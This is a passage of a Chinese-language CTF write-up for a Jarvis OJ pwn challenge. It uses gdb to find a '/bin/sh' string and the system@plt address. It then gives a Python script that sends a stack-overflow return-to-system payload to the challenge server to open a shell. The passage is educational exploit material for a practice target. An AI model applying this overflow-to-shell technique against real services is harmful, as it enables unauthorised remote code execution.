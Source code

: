 ```asm
0x804a029 <hint+5>
1 pattern found.
```

因为是hint+5，意思是hint变量+5的位置，从头查看这个变量，即`地址-5`，可以看到这个变量的全部内容为`/bin/sh`

```asm
(gdb) x/s 0x804a029-5
0x804a024 <hint>:	"/bin/sh"
```

对于系统命令的执行来讲，因为有环境变量的设置，所以传递绝对路径或相对路径都能执行/bin目录下的sh文件

拿到了字符串的位置，接下来获取system的地址

system函数为libc提供的函数，并不是程序自带的函数

为了让程序调用外部函数，有一套规则和结构，用来动态获取外部函数的地址。

在这道题里程序已经调用过system函数了，那么我们直接拿它调用的地址来用就好，暂不关心它是怎么获取外部函数的地址的

从vulnerable_function函数得知，system的地址是`0x8048320`

```c
0x0804849e <+30>:	call   0x8048320 <system@plt>
```



### 编写攻击程序

这里使用python

```python
from socket import *
import struct
import time

#####################################################
#exploit info
command_ptr = 0x804a024 #.data+0x8 : /bin/sh  the parameter of system(const char *cmd)
system_ptr = 0x8048320  #system()'s plt

payload = 'A' * 0x88
payload += "BBBB"
payload += struct.pack("<I", system_ptr) #"\x20\x83\x04\x08"
payload += "CCCC"
payload += struct.pack("<I", command_ptr) #"\x24\xa0\x04\x08"
#####################################################


#####################################################
#exploit
remote = "pwn2.jarvisoj.com"
port   = 9878

serverfd = socket()
serverfd.connect((remote, port))

time.sleep(0.5)
serverfd.recv(1024)

print "connected."
print "sendding payload..."
serverfd.send(payload + "\n")

time.sleep(1)
print "testng command 'pwd':"
serverfd.send("pwd\n")
```